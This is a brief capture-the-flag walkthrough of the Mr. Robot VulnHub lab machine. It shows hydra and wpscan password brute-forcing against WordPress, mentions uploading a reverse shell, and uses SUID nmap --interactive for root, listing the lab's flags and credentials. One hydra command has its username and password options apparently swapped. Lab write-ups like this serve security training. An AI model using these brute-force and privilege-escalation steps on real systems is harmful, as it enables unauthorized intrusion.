 # Mr. Robot VulnHub Machine
> Keertan singh, 24 october, 2022

![mr_robot_image](https://images.hdqwalls.com/wallpapers/mr-robot-illustration-fan-art-g4.jpg)

- Machine Ip Address 
```
export IP=192.168.39.195
```
## Step - 1
- During nmap scanning, we get that port 80 is open, so we can check at 'http://[machineIp]/robots.txt'

- There are mentioned 2 end points:
  - http://[machineIp]/fsocity.dic
  - http://[machineIp]/key-1-of-3.txt

- So our first key flag is at 'http://[machineIp]/key-1-of-3.txt'

- Flag 1
```
073403c8a58a1f80d943455fb30724b9
```

- Download fsocity.dic, It can be some type of password or username.

## Step - 2
- By directory bruteforcing we can suppose that target is using wordpress cms.

- So we will go to 'http://[machineIp]/wp-login

- Try to guess correct username and password.

- We can find username by hydra:
```
hydra -l wordlist.dic -p test $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```
- Correct Username:
```
Elliot
```
- Now we have username and let find password by wpscan:
```
wpscan --url 192.168.39.195 -P wordlist.dic --usernames Elliot
```
- Username: Elliot, Password: ER28-0652

- login on wordpress and upload reverse shell script.
- after getting shell, go to home/robot.
- Robot password:
```
abcdefghijklmnopqrstuvwxyz
```
- Flag 2:
```
822c73956184f694993bede3eb39f959
```
## Step 3
- Then type:
```
find / -perm -4000 2>/dev/null
```
- So, we can see that we can get privilege escalation with nmap
- run:
```
nmap --interactive
```
```
!sh
```
- Now, we are root.
- Flag 3:
```
04787ddef27c3dee1ee161b21670b4e4
```



<!-- http://192.168.93.195/wp-content/themes/twentyfifteen/ -->

